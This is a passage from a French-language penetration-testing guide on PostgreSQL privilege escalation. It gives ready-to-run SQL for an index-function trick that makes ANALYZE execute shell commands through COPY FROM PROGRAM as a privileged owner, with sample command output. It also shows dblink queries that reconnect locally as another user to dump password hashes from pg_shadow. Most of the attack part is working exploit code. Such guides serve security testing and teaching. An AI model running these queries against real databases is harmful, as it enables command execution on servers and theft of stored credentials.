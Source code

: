 Dans PostgreSQL, ce flux ressemble à ceci :
```sql
CREATE TABLE temp_table (data text);
CREATE TABLE shell_commands_results (data text);

INSERT INTO temp_table VALUES ('dummy content');

/* PostgreSQL does not allow creating a VOLATILE index function, so first we create IMMUTABLE index function */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
LANGUAGE sql IMMUTABLE AS 'select ''nothing'';';

CREATE INDEX index_malicious ON public.temp_table (suid_function(data));

ALTER TABLE temp_table OWNER TO cloudsqladmin;

/* Replace the function with VOLATILE index function to bypass the PostgreSQL restriction */
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text
LANGUAGE sql VOLATILE AS 'COPY public.shell_commands_results (data) FROM PROGRAM ''/usr/bin/id''; select ''test'';';

ANALYZE public.temp_table;
```
Ensuite, la table `shell_commands_results` contiendra la sortie du code exécuté :
```
uid=2345(postgres) gid=2345(postgres) groups=2345(postgres)
```
### Connexion locale

Certaines instances postgresql mal configurées pourraient permettre la connexion de n'importe quel utilisateur local, il est possible de se connecter localement depuis 127.0.0.1 en utilisant la **`dblink` function**:
```sql
\du * # Get Users
\l    # Get databases
SELECT * FROM dblink('host=127.0.0.1
port=5432
user=someuser
password=supersecret
dbname=somedb',
'SELECT usename,passwd from pg_shadow')
RETURNS (result TEXT);
```
> [!WARNING]
> Notez que pour que la requête précédente fonctionne, **la fonction `dblink` doit exister**. Si ce n'est pas le cas, vous pouvez essayer de la créer avec
>
> ```sql
> CREATE EXTENSION dblink;
> ```

Si vous avez le mot de passe d'un utilisateur avec plus de privilèges, mais que l'utilisateur n'est pas autorisé à se connecter depuis une IP externe, vous pouvez utiliser la fonction suivante pour exécuter des requêtes en tant que cet utilisateur :
```sql
SELECT * FROM dblink('host=127.0.0.1
user=someuser
dbname=somedb',
'SELECT usename,passwd from pg_shadow')
RETURNS (result TEXT);
```
Il est possible de vérifier si cette fonction existe avec :
```sql
SELECT * FROM pg_proc WHERE proname='dblink' AND pronargs=2;
```